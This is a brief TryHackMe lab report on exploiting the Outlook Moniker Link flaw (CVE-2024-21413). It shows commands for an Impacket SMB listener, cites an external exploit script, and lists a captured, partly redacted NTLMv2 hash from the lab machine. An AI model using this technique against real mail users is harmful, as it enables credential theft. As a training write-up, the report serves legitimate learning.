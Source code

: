 # [Moniker Link (CVE-2024-21413)] - Exploitation Report

## 📝 1. Overview
- Lab Name: [TryHackMe Cyber Security 101 - Moniker Link]
- Date Completed: [2025-08-24]
- Exploit: [Outlook Moniker Link Bypass (CVE-2024-21413)]
- Tools Used: [Impacket,Outlook]

## 🎯 2. Objective
Use a malicious moniker link to Capture NTLMv2 hash via SMB!

## 📚 3. Lessons Learned
- Learned how to use Impacket’s smbserver as a lightweight alternative to Responder.
- Understood how Outlook moniker links can leak NTLMv2 hashes.
- Practiced safe handling of captured hashes and redaction for public reporting.
  
## 🔧 4. Steps Taken
1. Connect to THM OpenVPN server. 
```zsh

sudo openvpn GuiGehlen.ovpn 
```
2. Start a SMB Server on my IP VPN using Impacket.
```zsh

mpacket-smbserver -smb2support monikshare /tmp -ip   MY_OPENVPN_IP
```
3. Create a exploit.py script using [CMNatic](https://github.com/CMNatic/CVE-2024-21413) scrypt to send a email with the malicious moniker link vulnerability.
```zsh

nano exploit.py
```
4. Get on the SMB server terminal the username and NTLMv2 hash of the email owner.

## 📊 5. Findings
- Compromised NTLMv2-SSP client: 10.201.110.237,50164
- Compromised NTLMv2-SSP User: THM-MONIKERLINK\tryhackme
- Compromised NTLMv2-SSP Hash: 
  - 'tryhackme::THM-MONIKERLINK:aaaaaaaaaaaaaaaa:eb867e49f95e970b4c0e2037c9f5a5ee:...REDACTED...'

## ✅ 6. Conclusion
The Moniker Link Exploit successefuly get the victmy user and hash!

## 📸 7. Screenshots
![Exploid python code](exploit.png)
![SMB server returning NTLMv2 Hash](SMBserver-and-exploit-result.png)
